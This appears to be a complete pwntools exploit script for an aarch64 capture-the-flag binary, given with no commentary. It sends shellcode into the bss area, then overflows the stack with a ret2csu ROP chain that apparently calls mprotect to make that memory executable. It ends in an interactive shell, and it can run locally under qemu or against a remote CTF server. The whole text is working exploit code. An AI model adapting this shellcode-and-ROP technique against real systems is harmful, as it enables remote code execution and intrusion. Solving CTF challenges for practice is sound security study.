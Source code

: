 ### exp.payload

```py
#coding=utf-8
from pwn import *
context.update(arch='aarch64',endian='little',os='linux',log_level="DEBUG")
debug = 2

elf = ELF("./pwn")
libc = ELF('/usr/aarch64-linux-gnu/lib/libc-2.23.so')
if debug == 1:
    p = process(["qemu-aarch64-static", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
elif debug == 2:
    p = process(["qemu-aarch64-static", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    p = remote("node3.buuoj.cn",28946)

def exp():
    raw_input()
    p.recvuntil("Name:")
    sc = asm(shellcraft.sh())
    bss_addr = 0x411068
    csu_start = 0x4008CC
    csu_end = 0x4008AC
    payload = sc.ljust(0x90,'\x00')
    payload += p64(0x400600)

    p.send(payload)
    #

    payload = 'a'*0x40
    payload += p64(bss_addr+0x90)+p64(csu_start)
    rops = flat([
        bss_addr+0x400,csu_end,
        0,1,
        bss_addr+0x90,7,
        0x1000,0x411000
        ])
    payload += rops
    rops1 = flat([
        bss_addr+0x90+0x30+0x30,bss_addr,
        0,0,
        0,0,
        0,0
        ])
    payload += rops1
    sleep(0.02)
    p.send(payload)
    p.interactive()

exp()


```
